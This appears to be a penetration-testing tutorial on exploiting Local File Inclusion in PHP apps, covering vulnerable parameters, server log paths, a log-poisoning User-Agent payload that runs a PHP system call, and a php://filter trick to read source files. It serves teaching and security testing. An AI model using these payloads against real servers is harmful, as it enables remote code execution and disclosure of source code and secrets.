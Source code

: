 **Local File Inclusion (LFI)** is a web vulnerability that occurs when an application allows users to include local files from the server through manipulable parameters. 

## Identifying LFI

Look for parameters that might reference files, such as:

- `file=`
- `page=`
- `template=`
- `lang=`

**Example vulnerable URL:**
```bash
http://example.com/index.php?page=home.php
```

By manipulating the `page` parameter, you might access unintended files.

## Exploitation Techniques

#### Basic LFI 

Basic LFI occurs when an application directly includes a file based on user input **without proper validation**, allowing attackers to access and execute unintended files.

```bash
http://example.com/index.php?page=about.php
```
The application includes and executes `pages/about.php`. However, an attacker can manipulate this behavior to load arbitrary files.

#### Log Poisoning

1. **Access the log file:**

Apache:
```bash
/var/log/apache2/access.log
/var/log/apache2/error.log
```
Nginx:
```bash
/var/log/nginx/access.log
/var/log/nginx/error.log
```
Custom or PHP errors:
```bash
/var/log/php_errors.log
```

2. **Inject payload into logs**

Make a request to the target with the following header:
```bash
User-Agent: <?php system('id'); ?>
```
This header is usually logged in `/var/log/apache2/access.log` or `/var/log/httpd/access_log`.


#### Forcing PHP File Inclusion Without Execution

By default, including a `.php` file causes the server to execute it rather than display its source code. However, certain methods can bypass execution.

The `php://filter` wrapper allows you to manipulate file streams before execution. Using the `convert.base64-encode` filter, you can encode the PHP file's content and decode it locally.

```bash
http://<target>/vulnerable.php?file=php://filter/convert.base64-encode/resource=index.php
```
This returns the Base64-encoded content of `index.php`. Decode it with a tool or command:

```bash
echo "<base64_content>" | base64 -d
```

**Possible vulnerable files:**
- `index.php`
- `index.php.bak`
- `index.php.save`
- `.index.php.swp` 

